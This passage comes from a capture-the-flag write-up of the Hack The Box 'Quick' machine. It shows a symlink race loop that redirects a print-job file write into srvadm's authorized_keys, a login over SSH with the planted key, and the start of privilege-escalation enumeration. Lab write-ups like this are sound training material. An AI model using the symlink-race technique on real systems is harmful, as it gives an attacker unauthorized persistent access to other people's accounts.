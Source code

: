 To abuse the file write and put my public SSH in the `srvadm` user directory instead, we can do this:

```
while true ; do N=`date +%Y-%m-%d_%H:%M:%S` ; if [[ ! -r $N ]] ; then rm -f $N ; ln -s /home/srvadm/.ssh/authorized_keys $N ; fi ; done
```

In the print job form, I'll send my SSH key:

![](/assets/images/htb-writeup-quick/image-20200425212900578.png)

Now that my key has been uploaded, I can SSH to the server as user `srvadm`.

```
root@kali:~# ssh srvadm@10.10.10.186
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-91-generic x86_64)

[...]

Last login: Sat Apr 25 21:57:39 2020 from 10.10.14.10
srvadm@quick:~$ id
uid=1001(srvadm) gid=1001(srvadm) groups=1001(srvadm),999(printers)
```

## Privesc

I looked at the files in srvadm's home directories and found a few things that stood out:

```
./.cache/conf.d:
total 20
drwxr-xr-x 2 srvadm srvadm 4096 Mar 20 06:23 .
drwx------ 5 srvadm srvadm 4096 Mar 20 06:20 ..
-rw-r--r-- 1 srvadm srvadm 4569 Mar 20 06:20 cupsd.conf
-rw-r--r-- 1 srvadm srvadm 4038 Mar 20 06:23 printers.conf

./.cache/logs:
total 96
drwxr-xr-x 2 srvadm srvadm  4096 Mar 20 06:46 .
drwx------ 5 srvadm srvadm  4096 Mar 20 06:20 ..
-rw-r--r-- 1 srvadm srvadm  9064 Mar 20 06:19 cups.log
-rw-rw-r-- 1 srvadm srvadm 71479 Mar 20 06:46 debug.log
-rw-rw-r-- 1 srvadm srvadm  1136 Mar 20 06:39 error.log
```
